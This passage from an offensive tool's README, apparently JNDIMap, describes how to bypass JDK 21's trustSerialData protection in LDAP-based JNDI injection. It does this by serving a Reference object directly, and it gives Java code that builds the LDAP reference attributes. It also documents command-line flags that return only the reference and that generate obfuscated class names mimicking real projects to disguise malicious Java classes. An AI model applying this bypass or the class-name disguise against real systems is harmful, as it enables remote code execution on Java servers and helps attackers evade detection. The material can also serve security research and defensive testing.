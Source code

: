 For JNDI injection of the LDAP(s) protocol, if you want to use ObjectFactory to bypass it, the existing methods are to set the javaSerializedData attribute returned by the LDAP protocol to the serialized data of the Reference object

However, since JDK 21, the `com.sun.jndi.ldap.object.trustSerialData` parameter defaults to false, which means that deserialization cannot be triggered through the LDAP protocol, and the Reference object cannot be parsed through the above method

But we can still set the relevant LDAP parameters so that the server directly returns the Reference object. Because this process does not involve deserialization, it bypasses the restrictions of the trustSerialData parameter

The specific implementation is as follows

```java
public void processSearchResult(InMemoryInterceptedSearchResult searchResult) {
    // ......

    Reference ref = (Reference) result;
    e.addAttribute("objectClass", "javaNamingReference");
    e.addAttribute("javaClassName", ref.getClassName());
    e.addAttribute("javaFactory", ref.getFactoryClassName());

    Enumeration<RefAddr> enumeration = ref.getAll();
    int posn = 0;

    while (enumeration.hasMoreElements()) {
        StringRefAddr addr = (StringRefAddr) enumeration.nextElement();
        e.addAttribute("javaReferenceAddress", "#" + posn + "#" + addr.getType() + "#" + addr.getContent());
        posn ++;
    }

    // ......
}
```

Just specify the `--use-reference-only` parameter when using it

```bash
java -jar JNDIMap.jar --use-reference-only
```

### Confusing Class Name

The [classNames](src/main/resources/classNames) directory of JNDIMap contains some fake class names that are highly similar to real projects. These class names are generated based on the [ClassNameObfuscator](https://github.com/X1r0z/ClassNameObfuscator) project and can be used in scenarios related to generating malicious Java classes in JNDI injection

Just specify the `--confusing-class-name` parameter when using it

```bash
java -jar JNDIMap.jar --confusing-class-name
```

When the `--confusing-class-name` parameter is not specified, JNDIMap generates a random string in the format `[A-Z]{1}[A-Za-z0-9]{7}` as the malicious class name
